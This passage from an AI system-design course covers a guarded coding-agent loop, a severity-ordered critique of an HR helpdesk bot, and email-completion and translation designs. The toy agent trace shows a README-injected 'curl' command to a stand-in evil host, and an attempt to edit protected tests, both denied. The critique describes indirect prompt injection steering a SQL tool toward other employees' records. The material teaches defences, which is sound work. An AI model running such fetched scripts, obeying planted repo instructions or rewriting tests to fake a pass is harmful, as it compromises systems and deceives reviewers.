- **Q: "Cost per merged PR is $40."** A: Attribute first (trajectories reveal oversized context and thrashing), then routing and prefix caching, then **restrict by ticket type** — a failed run is spend with no return.

### What separates levels, and variations
Mid-level stops at "it opens a PR" with controls bolted on; senior frames safety as three overlapping controls, caps the loop and raises the untrusted-repo threat unprompted; staff treats trust as a measured ladder per ticket category and names reviewer capacity as the limit before being asked. **Variations:** a *data-analysis agent* (weaker verifiers — nothing "compiles" an insight — so a lower autonomy ceiling) and *upgrading 3,000 repos to a new framework* (design once, replay everywhere, canary repos first; CI capacity is the bottleneck).

### Toy: a bounded loop with guards (`code/coding_agent_loop.py`)
A scripted "LLM" works a real bug in a temporary directory (a sandbox stand-in — no real network isolation), running the real `unittest` suite in a **subprocess** with a stripped environment. `edit_file` refuses anything outside the sandbox and any `test_*` file ("tests are protected"); `run` refuses commands not on an allowlist and passes only `PATH` (no credentials).

```
Ticket: BUG-17: average([]) crashes; it should return 0.0  (budget: 12 steps, $0.50)
  step 1: write a plan                 -> PLAN: make average([]) return 0.0; run tests
  step 2: read the code                -> def average(xs): ...
  step 3: README says to run a script  -> DENIED: command not on allowlist: curl http://evil.example/x.sh
  step 4: guard empty input            -> edited calc.py
  step 5: run tests                    -> FAIL: FAILED (failures=1)
  step 6: make the test match          -> DENIED: tests are protected; change the code, or ask a human to approve test changes
  step 7: fix the code instead         -> edited calc.py
  step 8: run tests                    -> PASS: OK
  diff:
     --- a/calc.py
     +++ b/calc.py
     @@ -1,2 +1,4 @@
      def average(xs):
     +    if not xs:
     +        return 0.0
          return sum(xs) / len(xs)

  step 9: open PR                      -> PR opened (ready for review) by PR service with its own scoped token; flags=none
  trajectory: {'steps': 9, 'test_runs': 2, 'denied': 2, 'test_edit_attempts': 1}, spend $0.19

Same ticket with a tight budget (5 steps)
  ... steps 1-5 as above, ending in: step 5: run tests -> FAIL: FAILED (failures=1)
  BUDGET EXHAUSTED after 5 steps ($0.09) -> open DRAFT PR with findings, never silence
  findings: last test result and plan attached for a human
  trajectory: {'steps': 5, 'test_runs': 1, 'denied': 1, 'test_edit_attempts': 0}, spend $0.09
```
Every guard fires once: the injected README command is refused (the model was fooled; the system wasn't), the wrong fix is caught by tests, the test-edit attempt is denied and counted, the correct fix passes. With a tight budget the loop ends in a draft, not silence.

### TL;DR
A bounded loop in the friendliest agent domain: tests inside, CI outside, humans at the end; hardened sandbox with no credentials and allowlisted egress; the repo is untrusted input; exhaustion yields a draft; trust grows per ticket class on measured merge, revert and reviewer-burden numbers; reviewer throughput is the real bottleneck.

---

## 14.6 Case: critiquing a system design

### What it is
**Form 5** from [§13.1](../13-ai-system-design-and-genai-products/README.md): "Here is our design — what's wrong with it?" You assess a prototype or production system and decide what must change before rollout — judgement and diplomacy together. Review questions use **their own order**, not the seven steps. Keep proven problems apart from guesses and from facts you don't have yet.

### How it works — critique in severity order, systems first


*Figure — Critique in severity order, systems first (course diagram)*

| Tier | Category | Question it answers | Typical findings |
|---|---|---|---|
| 1 | **Violated invariants** | What is wrong *right now*? | Security, permissions, money |
| 2 | **Missing loops** | What can't *stay* right? | No evals, no feedback capture |
| 3 | **Reliability gaps** | What fails ungracefully? | No fallbacks, stale or fragile indexes |
| 4 | **Economics** | What won't survive scale? | No routing, caching or budgets |
| 5 | **Quality opportunities** | What could simply be better? | Reranking, hybrid retrieval, query rewriting |

The order is a default — a bad enough quality problem can become a blocker. For every finding state **consequence, evidence, uncertainty and fix**; the most interesting flaw is not necessarily the most urgent.

### The exercise
> **The setup (paraphrased).** An internal helpdesk bot embeds an employee's question, fetches the 10 nearest wiki chunks (the whole wiki is re-indexed nightly), and a top-tier model writes the reply. For personal HR questions the model can call a tool that runs read-only **SQL** on the HR database. The demo went well; the plan is to switch it on for all 30,000 staff. What do you think?

Set a 10-minute timer and write your critique in severity order before reading on.



### Tier 1 — broken invariants (open with these, in a level tone)
1. **No permission filtering on retrieval.** A similar-sounding question from anyone can pull restricted chunks into an answer. Enforce current permissions *before* content reaches context, output, caches or logs: per-chunk ACL metadata filtered in the index query ([§7.9](../07-embeddings-vector-databases-and-rag/README.md)). Blocks launch — but first confirm it isn't enforced somewhere the diagram doesn't show.
2. **The SQL tool is far too broad.** If the model writes the `WHERE` clause (the query's filter), a manipulated prompt can insert someone else's employee ID: the model is deciding access. Replace it with a narrow `get_my_record(fields)` whose employee ID comes from the authenticated session; if SQL must stay, enforce read-only scope, **row-level security** (the database shows each user only their rows) and limits *outside* the model. The worst problem in the design.
3. **No injection posture.** Wiki pages flow as untrusted input into a model holding a database tool — the **indirect prompt injection** path — with no input gate, data tagging or action gate.


*Figure — The three tier-one findings, said first and said calmly (course diagram)*

### Tier 2 — missing loops
4. **No evaluation.** "Great demo" means nothing was measured. Before 30,000 users: a test set with **unanswerables** and **access-violation probes**, a faithfulness metric, a groundedness gate on HR answers.
5. **No feedback** — no ratings, human hand-off or traces — so problems go unnoticed.

### Tier 3 — reliability gaps
6. **Nightly full re-index** → up to 24 h staleness and a fragile all-at-once job. Prefer incremental, **idempotent**, delete-propagating sync with a freshness SLO; build a new index and **swap atomically** (readers never see a half-built index).
7. **No fallbacks** — vector DB, model API or tool timeout each surface as raw errors.

### Tiers 4–5 — economics and quality (one sentence each)
A frontier model on every query (evaluate routing and permission-aware caching); top-10 stuffing without reranking or a context budget; vector-only retrieval may miss exact identifiers such as form names or ticket numbers (measure, then consider hybrid); follow-ups may need query rewriting using conversation context.

### Delivering critique without offending the author
The author may be in the room:
1. **Start with what's sound**: "Retrieval fits this problem and a tool was a sensible idea — the gaps are in how access is enforced."
2. **Attach a consequence and a fix to every finding**, never a bare preference.
3. **End with a sequenced plan**: *blockers* → *week one* → *later*.


*Figure — Delivering critique as a plan, not a verdict (course diagram)*

**Practice drill:** take any capstone in this book, delete three subsystems at random and critique the damaged design cold — naming what's *absent* is a different skill from building.

### Two more to practise (10 minutes each)
**Exercise A — churn model (paraphrased).** Monthly, someone exports a **CSV** and retrains a **churn** model (predicting which customers will leave); nightly, all customers are scored into the CRM; marketing discounts the riskiest 10%. After a year everyone believes it works. Findings, most severe first: no **point-in-time joins** (check for leakage — features using information from after prediction time); **no holdback group** (customers deliberately left untreated), so nobody knows whether discounts cause retention or just give away margin; a **self-inflicted feedback loop** (discounts change what the next training set learns); stale hand-run refreshes; no **model registry** (versioned catalogue of trained models) or rollback.

**Exercise B — "hallucinations fixed" (paraphrased).** A support RAG bot made things up; the team set temperature to 0, told the model not to invent facts, and retrieved 20 chunks instead of 5. Complaints fell. Findings: none of those changes *checks* an answer — groundedness checks still missing ([§7.8](../07-embeddings-vector-databases-and-rag/README.md)); temperature 0 reduces variation, not falsehood; **top-k** 20 adds cost and **lost-in-the-middle** risk (models under-use mid-context information); complaint counts stand in for a faithfulness eval never built; the bot still can't decline.

### What separates levels
Mid-level spots real issues but opens with product opinions ("I'd swap the vector DB") stated as taste; senior opens with tier-1 issues, each with impact and remedy, in severity order; staff also reads the room — affirms the shape, sequences blockers / week one / later, ends with a to-do list, not a verdict.

### Toy: a severity-ordered design linter (`code/design_critic.py`)
Each rule has a tier, a check over a description of the design, a consequence and a fix; findings are sorted by tier.

```python
Rule(1, lambda d: d.get("tool") == "free_sql" and not d.get("authz_outside_model"),
     "Model writes the SQL (and its WHERE clause) for HR data",
     "one injected prompt can read another employee's record",
     "replace with get_my_record(fields) bound to the caller's identity; row-level security"),
```
Output (abridged):
```
== Internal support copilot (30,000 employees): 10 findings
   what the shape gets right: RAG is the right pattern and a tool for personal HR questions is a good instinct
   1. [T1 violated invariant] No permission filter on retrieval
      consequence: restricted pages reach anyone who asks a nearby question
      fix: store ACLs per chunk, filter in the index query, re-check current access
   2. [T1 violated invariant] Model writes the SQL (and its WHERE clause) for HR data
      ...  (findings 3-9 cover tiers 1-4)
   10. [T5 quality] Vector-only retrieval
      consequence: may miss exact identifiers (form names, ticket numbers)
      fix: measure, then add keyword (BM25) retrieval and fusion if it helps
   plan:
     blocker (before rollout): No permission filter on retrieval; Model writes the SQL (and its WHERE clause) for HR data; No injection posture while the model holds a tool; No evaluation set ('works great in the demo'); No feedback capture or traces
     week one: Nightly full re-index; No fallbacks for vector DB, model API or tool timeouts
     later: Frontier model for every query, no routing or caching; Top-10 chunks stuffed into context without reranking; Vector-only retrieval

== Same design after the blockers are fixed: 5 findings
```
A linter can't replace judgement — confirm each finding against the real system — but writing the rules down internalises the severity order.

### TL;DR
Review by severity — invariants, feedback loops, reliability, economics, then quality — never leading with favourite tools. Pair every issue with impact and remedy; end with blockers / week one / later.

---

## 14.7 Comparison across the cases

| | Legal research assistant | AI meeting assistant | Text-to-image at scale | Autonomous coding agent | Design critique |
|---|---|---|---|---|---|
| **Family / known system** | Generative — enterprise RAG, maximum stakes | Generative — live lane + async workflow + archive RAG | Generative — async GPU job pipeline | Agentic — bounded loop | Form 5 review (here: RAG + tool) |
| **Primary metric** | Attorney-verified usefulness | WER + speaker attribution; summary edit rate; Q&A faithfulness | Images kept per session | PR merge rate | Findings with consequence and fix |
| **Binding / guardrail metrics** | Fabricated citations (measured zero), unsupported claims, two-way refusal correctness | Wrong-owner action items, privacy incidents | Wait time by tier, safety incident rate | Reviewer burden, CI failure, revert rate | Severity order kept |
| **Latency posture** | Relaxed (~30 s) — spent on verification | ms (live) / minutes (summaries) / seconds (Q&A) | Seconds (paid p90) to ~a minute (free) | Minutes to hours per task | — |
| **Dominant cost** | Licensed content + per-query verification | Transcription (audio minutes) | GPU fleet utilisation | Model calls per task + reviewer time | — |
| **Key data structure** | Citation graph + treatment metadata | Timestamped transcript chunks + ACLs | Job record (prompt, seed, versions, gate scores) | Repo index + plan file + durable task state | The design's facts |
| **Signature control** | Unresolvable citations cannot render; fail closed | ACL-bounded synthesis; tombstone-and-propagate | Prompt gate before GPU, image gate before access; DLQ | Sandbox, protected tests, CI, human review | Tier-1 blockers before rollout |
| **Free labels / feedback** | Flagged citations → regression suite | Summary edits, reassignments | Pick / upscale / regenerate | Review comments, merges, reverts | — |
| **Fallback** | Research pointers | Status + revised ETA; low-confidence spans flagged | Lower quality settings, longer free waits, caps | Draft PR with findings | Sequenced plan |
| **Toy script** | `legal_citation_verifier.py` | `meeting_pipeline.py` | `t2i_fleet_sim.py` | `coding_agent_loop.py` | `design_critic.py` |

Patterns that repeat: **recognise the known system in minute two**, **spend the flexible budget (usually latency) on the binding risk**, **every output links back to its evidence**, **fail closed where harm is irreversible**, **production feedback becomes the eval suite**, **cost is itemised per unit before multiplying by volume**. Part II's seven cases have their own comparison table.

---

## Part II — model-centric GenAI cases

Cases 14.2–14.5 were **product-centric**: the model was a mostly-bought component, and the grade came from retrieval, queues, gates and loops. The seven below are **model-centric** — pick the model family, say what data trains it, how it decodes or samples, how you'd know it is good, and only then how to serve it. Same template, heavier *Approach* phase, and each case names its primary papers.

| Script | Case | What it demonstrates |
|---|---|---|
| `code/smart_compose.py` | Email completion | Beam search (keeping the few best partial outputs each step), confidence threshold vs trigger/acceptance, personal blend, pronoun filter |
| `code/translation_toy.py` | Translation | Character-trigram language ID, BLEU from scratch and its blind spots, segment-cache hit rates |
| `code/caption_toy.py` | Captioning | Grounding rerank, CHAIR hallucination rate, CIDEr-style consensus, alt-text policy |
| `code/gan_faces_toy.py` | GAN faces | GAN training on 8 modes, mode dropping, why FD alone misleads, the truncation trick |
| `code/latent_compression.py` | High-res synthesis | Token and attention arithmetic, a k-means VQ codebook: compression vs PSNR (peak signal-to-noise ratio, a pixel-accuracy score in decibels) |
| `code/headshot_lora.py` | Personalised headshots | Low-rank update vs full fine-tune, prior-preservation trade-off, per-user cost |
| `code/video_budget.py` | Text-to-video | Spacetime token counts, factorised attention, flicker, fleet cost |

---

## 14.8 Case: sentence completion in email

> **The question (paraphrased).** An email product with hundreds of millions of daily users wants to suggest the rest of a sentence as people type, shown as grey text the user accepts with Tab. Design it.

### Requirements (minutes 0–8)
**Recognition.** "Next-token prediction ([§4.2](../04-large-language-models/README.md)) under a hard latency budget at enormous volume — a *small* language model served close to the user, plus a gate deciding when to stay silent. The inline-completion archetype of [§13.10](../13-ai-system-design-and-genai-products/README.md) with email's privacy rules."

**Success — three numbers, said together.**
1. **Acceptance rate** — accepted ÷ shown. A wrong suggestion costs attention.
2. **Trigger rate** (coverage) — shown ÷ opportunities. Acceptance can reach 100% by never suggesting, so the two are always reported together.
3. **Characters saved per email** — the user benefit combining both.

*Guardrails:* offensive, biased or privacy-leaking suggestions on a red-team set (target: none found), and **latency**. At 60 words per minute a person enters ~5 characters/s, so a keystroke arrives every ~**200 ms**; a suggestion landing after the next keystroke is useless. Budget ~100 ms end to end at p90, of which the network takes 30–50 ms.

**Scope.** Sentence completion in new emails and replies, one language first, no whole-email drafting (a different, slower LLM product).

### Approach: data and model (minutes 8–18)
- **Training data is users' own sent email** — the most sensitive corpus in the company: used only under the product's privacy terms, de-identified, with a defence against **memorisation** (LMs can reproduce rare strings seen in training, e.g. a phone number that appeared a few times — Carlini et al., *The Secret Sharer*, 2019). Mitigations: drop rare **n-grams** (runs of n words) and personal data, cap any one user's contribution, consider differentially private training (mathematically bounding any one example's influence).
- **Context beyond the prefix.** The typed words are the main input, but the subject line and, for replies, the previous message help a lot; Google's Smart Compose conditions on both (Chen et al., *Gmail Smart Compose: Real-Time Assisted Writing*, KDD 2019). Cheap signals such as **locale** and time of day help greetings ("Have a great weekend" on Friday).
- **Model, at name level.** A small **decoder-only** (GPT-style, left to right) LM — tens of millions of **parameters**, not billions — answering in tens of milliseconds at very high request rate. A large model can be the **teacher** for **distillation** ([§11.8](../11-llm-serving-and-inference/README.md)); **quantise** the student for serving ([§11.7](../11-llm-serving-and-inference/README.md)).
- **Decoding.** **Beam search** ([§4.7](../04-large-language-models/README.md)) keeps the few most probable partial completions and extends them word by word, stopping at sentence end or when confidence falls. Show the best completion **only if its probability clears a threshold** — the single most important product knob.
- **Personalisation.** Habits ("Cheers, Sam") live in a tiny per-user model — even an n-gram count table — **interpolated** with the global one: p = (1 − λ)·p_global + λ·p_user. Cheap, stays in the user's own data store, deleted with the account.

### Architecture (minutes 18–30)
**Envelope first** (illustrative): 100M daily writers × 10 emails × ~50 opportunities per email (≈ one per word) = **5 × 10¹⁰ requests/day ≈ 580,000/s average**, perhaps 1.2M/s at peak. Nothing costing even 1 ms of accelerator time per request is affordable without batching and reuse.



- **Most requests should never be sent.** If the user types exactly the predicted characters, the client trims the suggestion and keeps showing the rest. Requests go out only at word boundaries or after a short pause (a **debounce**, tens of ms); stale responses (arriving after the prefix changed) are dropped.
- **Sticky sessions and a per-draft cache.** Route a draft's requests to one server, which keeps that draft's model state (the KV cache, [§4.9](../04-large-language-models/README.md)) so only newly typed tokens are processed; if the server changes, the next request recomputes — a cache miss, not an error.
- **Batching under a deadline.** Gather requests for a few milliseconds; the batch closes on size *or* deadline ([§11.5](../11-llm-serving-and-inference/README.md)).
- **The gate** applies the confidence threshold and policy filter and returns *nothing* by default — silence is the safe, cheap answer.

### Evaluation and the loop (minutes 30–38)
- **Offline:** replay held-out emails word by word; a suggestion counts only if it matches exactly what the person typed next. Report trigger rate, exact-match acceptance and characters saved per threshold (as the toy does). Perplexity is a useful training signal but doesn't predict acceptance alone.
- **Online:** A/B on acceptance, trigger rate, characters saved and **undo-after-accept** (a hidden rejection). Logs store *events* (shown, accepted, rejected, lengths), not email text.
- **The threshold is re-tuned per language and per surface** (mobile users accept shorter suggestions) — a product decision on the trigger-vs-acceptance curve, not a constant.

### Scaling and cost
Cost ≈ requests actually sent × tokens per request × cost per token. The big levers are *request avoidance* — local trimming, debouncing, the confidence gate — then model size (distil, quantise) and the per-draft cache. A mobile variant can move a very small model on-device, removing the network from the budget and keeping text local.

### Safety and privacy
- **Never guess people's attributes.** Email-trained models learn stereotypes ("the engineer … he"). Gmail's team told Reuters in November 2018 that Smart Compose stopped suggesting gendered pronouns altogether after it proposed "him" for an unnamed investor — no fix was reliable enough. More generally, keep a **blocklist of suggestion content** (slurs, pronouns for others, sensitive health or financial terms) updatable without retraining.
- **No cross-user leakage:** memorisation defences on the global model; per-user tables keyed to the account, never shared.
- **Sensitive contexts:** suppress suggestions in threads that look like condolences, legal or medical content.

### Failure modes
| Failure | Response |
|---|---|
| Inference slow or down | Client time-out drops the suggestion; typing is never blocked |
| Offensive suggestion reported | Hot-update the blocklist within minutes; add the prefix to the red-team set |
| New model lowers acceptance | **Canary** on a small slice, automatic rollback on online metrics |
| Personal table suggests another user's text | Privacy incident: tables are per-account by construction, so look for a keying bug |

### Follow-ups (Q→A)
- **Q: "Product wants twice as many suggestions."** A: Lower the threshold and show the curve: in the toy, 0.30 → 0.05 raises trigger rate 44% → 60% but drops acceptance 47% → 37%, and characters saved barely moves. More suggestions mostly means more wrong ones.
- **Q: "Why not use our big LLM?"** A: A 100 ms budget at ~10⁶ requests/s rules it out; use it offline as the distillation teacher and to generate evaluation data.
- **Q: "Personalise without a model per user?"** A: Interpolate a per-user count table with the global model — no GPU, instant updates, deleted with the account.
- **Q: "Users switch language mid-email."** A: Detect the current sentence's language (character n-grams, as in §14.9) and route to that model; show nothing when unsure.

### What separates levels, and variations
Mid-level draws "LLM behind an API"; senior budgets the 200 ms inter-keystroke gap, avoids requests on the client and treats the threshold as a product curve; staff adds memorisation defences, attribute-guessing policy and on-device options as first-class constraints. **Variations:** *code completion* (longer suggestions, the repository as context, same trigger/acceptance trade-off — [§13.10](../13-ai-system-design-and-genai-products/README.md)) and *mobile keyboard next-word prediction* (on-device models trained with **federated learning** — phones compute updates locally and only aggregated updates leave the device; Hard et al., 2018).

### Toy: threshold, personal blend and filter (`code/smart_compose.py`)
A **trigram model with backoff** (next word from the previous two, falling back to shorter context when unseen) stands in for the small LM. `suggest()` runs a width-3 beam over up to 6 words, each step mixing global and personal distributions (λ = 0.6), returns nothing if any word is on the pronoun blocklist, and otherwise returns the words with their probability (shown only if ≥ threshold). Replaying 800 held-out synthetic emails:
```
1) Threshold sweep (global model only) - show a suggestion only if P(suggestion) >= threshold
   threshold | trigger rate | acceptance | chars saved | blocked by pronoun filter
        0.00 |        69.4% |      31.8% |       42.4% | 75
        0.05 |        59.8% |      36.9% |       42.4% | 75
        0.15 |        53.5% |      39.9% |       41.2% | 75
        0.30 |        43.8% |      47.3% |       39.7% | 75
        0.50 |        36.5% |      52.8% |       37.0% | 75

2) Personalisation for user 'sam' (always writes 'thanks for the heads up'), threshold 0.3
   global only        trigger 40.4%  acceptance 37.0%  chars saved 28.6%
   global + personal  trigger 39.8%  acceptance 37.2%  chars saved 31.1%
   prefix ['thanks','for'] -> global: ['your', 'help'] | sam's blend: ['the', 'heads', 'up']

3) Sensitive-word filter (never guess the pronoun of someone the writer mentions)
   prefix ['can','you','ask'] unfiltered -> ['her', 'to', 'join', 'the', 'call'] | filtered -> (nothing shown)
```
Raising the threshold 0.00 → 0.50 trades coverage for precision — trigger rate 69% → 37%, acceptance 32% → 53% — while characters saved barely changes, because the removed suggestions were mostly wrong. The personal blend changes only this user's habitual phrases; the filter turns 75 would-be pronoun guesses into silence.

### TL;DR
A small distilled LM under ~100 ms; avoid requests on the client (trim, debounce, drop stale); beam search plus a confidence threshold tuned on the trigger-vs-acceptance curve; a per-user blend; defend against memorisation; never guess people's attributes.

---

## 14.9 Case: machine translation service

> **The question (paraphrased).** Design a translation service for 100+ languages: people type or paste text, and web pages and documents are translated through an API. About 500M requests per day.

### Requirements (minutes 0–8)
**Recognition.** "**Sequence-to-sequence** generation — an encoder reads the source, a decoder writes the target ([§3.8](../03-transformers-and-embeddings/README.md); [ML §12.5](../../../ml/chapters/12-sequences-rnns-and-attention/README.md)). The hard questions: how many models for how many pairs, data for rare languages, and measuring quality when many translations are correct."

**Success.**
- *Primary:* **human-judged quality per language pair**, via a professional protocol such as **MQM** (Multidimensional Quality Metrics: translators mark each error by type and severity; Freitag et al., 2021).
- *Automatic proxies:* **BLEU** (n-gram overlap with a reference; Papineni et al., 2002), **chrF** (character n-gram overlap, better for rich **morphology** — words changing form a lot) and **COMET** (a neural model trained to predict human judgements; Rei et al., 2020).
- *Guardrails:* critical errors — negation flipped, numbers or names changed, offensive output, gender stereotyping from a neutral source.

**Latency.** Interactive typing (~300 ms p90), web pages (hundreds of short segments, throughput-bound), documents (async minutes). **Scope:** text only; speech and image translation reuse the core behind ASR or **OCR** (reading text from images).

### Approach: data and model (minutes 8–18)
- **Model: an encoder-decoder Transformer** (Vaswani et al., 2017 — introduced for translation). The decoder attends to the encoder's representation with **cross-attention** while generating.
- **One multilingual model, not one per pair.** 100 languages = 100 × 99 = **9,900 directed pairs** — far too many models. One model with a **target-language tag** ("<2es> …") translates among many languages and even manages unseen pairs (*zero-shot*; Johnson et al., 2017); NLLB extended this to ~200 languages (NLLB Team, 2022). The cost is **capacity dilution** — **high-resource** pairs (lots of training text) lose a little as languages are added (the *curse of multilinguality*, Conneau et al., 2020) — so top-traffic pairs often get a dedicated or distilled model.
- **Tokenisation:** a shared **subword vocabulary** (**BPE** — byte-pair encoding, merging frequent character pairs — or SentencePiece; Sennrich et al., 2016; Kudo and Richardson, 2018), so rare words split into known pieces. Check tokens per script — badly fragmenting languages pay more latency and money for the same sentence ([§3.1](../03-transformers-and-embeddings/README.md)).
- **Data:** **parallel text** (same content in two languages) from public-domain and licensed sources, plus **mined** pairs (near-identical multilingual embeddings in web text). For low-resource languages, **back-translation**: translate **monolingual** target-language text *back* into the source with a reverse model, then train on (synthetic source → real target) (Sennrich, Haddow and Birch, 2016) — the target side stays human-written, which matters most for fluency.
- **Cleaning:** language-ID every sentence, drop misaligned pairs, remove **boilerplate** (cookie notices etc.) and detectable machine-translated web text — training on your own output amplifies its errors.

### Architecture (minutes 18–30)
**Envelope:** 500M requests/day ≈ **5,800/s**. With ~40 tokens in and out and a ~600M-parameter encoder-decoder split evenly, a **forward pass** costs ~2 **FLOPs** per parameter per token through its own half: the encoder reads 40 tokens once, the decoder writes 40 for each of 4 beams — 2 × 0.3 × 10⁹ × (40 + 4 × 40) ≈ 1.2 × 10¹¹ FLOPs per request; × 5,800/s ≈ 7 × 10¹⁴ FLOP/s — a few accelerators at full use, tens in practice with latency headroom, peaks and per-pair models.



- **Segment, then translate sentences** — the unit the model trained on; enables batching and caching. Formatting (HTML, markdown) becomes placeholders restored afterwards; **do-not-translate spans** (URLs, code, product names, customer glossaries) become protected placeholders too.
- **Language identification** runs first on character n-grams; very short inputs ("ok", "hotel") are ambiguous — fall back to the interface language or ask.
- **Segment cache.** Popular strings (menu labels, boilerplate, top headlines) repeat constantly. Key on (normalised text, source, target, model version, glossary version) so an upgrade never serves stale translations.
- **Quality estimation (QE):** a reference-free model scores each translation at serve time — flagging low confidence, routing hard segments to a larger model, or sending them to human post-editing for paying customers.
- **Web pages** are throughput jobs: hundreds of segments per batch, visible part first, stream the rest.

### Evaluation and the loop (minutes 30–38)
- Score **every pair separately** on fixed test sets (e.g. FLORES-200 from NLLB) with chrF and COMET; averages hide a regressed pair.
- **Human MQM** decides launches for top pairs and samples the long tail.
- **Targeted suites:** negation, numbers and units, named entities, gender (does "the doctor" become masculine from a neutral source? — Stanovsky et al., 2019), formality.
- **User signals:** "suggest an improvement" edits and copy-without-edit rates — noisy labels, never automatic training data without review (they can be adversarial).

### Scaling and cost
Levers in order: segment cache (the toy shows 61–81% hit rates under an assumed **Zipf** distribution — a few items very popular, a long tail — measure yours), batching by pair, **distilled** pair-specific students for the top 20 pairs, quantisation, and routing only low-QE segments to the large model ([§11.14](../11-llm-serving-and-inference/README.md)). Long documents go to a cheaper async queue.

### Safety
Translation can **introduce** harm: a mistranslated medical or legal instruction, an insult from a neutral sentence, a loaded synonym for a political term. Add output toxicity checks when the source wasn't toxic, protect numbers and negation with source-target consistency checks, label machine translation. Content is often confidential — no training on API customers' text by default ([§12.5](../12-safety-ethics-governance/README.md)).

### Failure modes
| Failure | Response |
|---|---|
| Wrong source language detected | Show the detected language with one-click override; low-margin detections use the UI language |
